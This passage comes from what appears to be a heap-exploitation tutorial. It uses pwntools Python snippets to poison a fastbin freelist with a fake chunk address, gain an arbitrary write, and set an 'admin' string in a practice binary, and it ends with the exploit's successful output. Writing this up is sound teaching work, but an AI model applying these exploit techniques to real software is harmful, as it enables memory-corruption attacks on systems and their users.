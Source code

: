 The last `free()` gets reused, and our "fake" fastbin location is in the list. Beautiful.

Let's push it to the top of the list by creating two more irrelevant users. We can also parse the `fakemetadata` location at the beginning of the exploit chain.

```python
p.recvuntil('data: ')
fake_metadata = int(p.recvline(), 16) - 8

log.success('Fake Metadata: ' + hex(fake_metadata))

[...]

create('junk1')
create('junk2')
pause()
```

The reason we have to subtract 8 off `fakemetadata` is that the only thing we faked in the souce is the `size` field, but `prev_size` is at the very front of the chunk metadata. If we point the fastbin freelist at the `fakemetadata` variable it'll interpret it as `prev_size` and the 8 bytes afterwards as `size`, so we shift it all back 8 to align it correctly.

![](../../../.gitbook/assets/image%20%2832%29.png)

Now we can control where we write, and we know where to write to.

### Getting the Arbitrary Write

First, let's replace the location we write to with where we want to:

```python
create(p64(fake_metadata))
```

Now let's finish it off by creating another user. Since we control the fastbin, this user gets written to the location of our fake metadata, giving us an almost arbitrary write.

```python
create('\x00' * 8 + 'admin\x00')
complete()
```

{% hint style="info" %}
The 8 null bytes are padding. If you read the source, you notice the metadata string is 16 bytes long rather than 8, so we need 8 more padding.
{% endhint %}

```text
$ python3 exploit.py
[+] Starting local process 'vuln': pid 8296
[+] Fake Metadata: 0x602088
b'Level Complete!\n'
```
